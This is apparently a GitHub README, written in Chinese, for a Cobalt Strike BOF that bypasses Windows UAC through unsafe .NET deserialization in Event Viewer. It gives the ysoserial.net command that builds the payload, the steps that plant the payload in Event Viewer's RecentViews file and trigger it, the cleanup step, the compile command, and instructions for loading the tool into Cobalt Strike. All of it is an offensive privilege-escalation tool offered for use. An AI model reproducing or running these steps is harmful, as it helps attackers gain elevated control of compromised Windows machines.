 # EventViewerBypassUacBof
EventViewer Bypass Uac Bof

## 主要参考了如下作者的代码：
https://github.com/Octoberfest7/EventViewerUAC_BOF
https://github.com/netero1010/TrustedPath-UACBypass-BOF
https://github.com/CsEnox/EventViewer-UACBypass

## 执行流程
Bypass过程利用了Unsafe .Net Deserialization in Windows Event Viewer ，程序主要完成了如下流程
1、使用ysoserial.net（https://github.com/pwntester/ysoserial.net）生成payload（.\ysoserial.exe -o base64 -f BinaryFormatter -g DataSet -c "forfiles /c C:\Users\test\Desktop\TESTdir\9999.exe" >b64.bin）

2、使用convertbin.py将payload转化为最终payload文件

3、上传payload文件至C:\Windows\Tasks\

4、拷贝文件并将文件命名为：%LOCALAPPDATA%\Microsoft\Event Viewer\RecentViews

5、启动EventViewer，这将导致EventViewer去执行payload文件

6、清理payload文件

## 使用方法：

1、编译：
x86_64-w64-mingw32-gcc -o EventViewerUAC.x64.o -c main2.c

2、CS加载 EventViewerUAC_gg.cna

3、EVUAC Payload Env （Env 通过执行 shell set |findstr \"LOCALAPPDATA\" 获得）
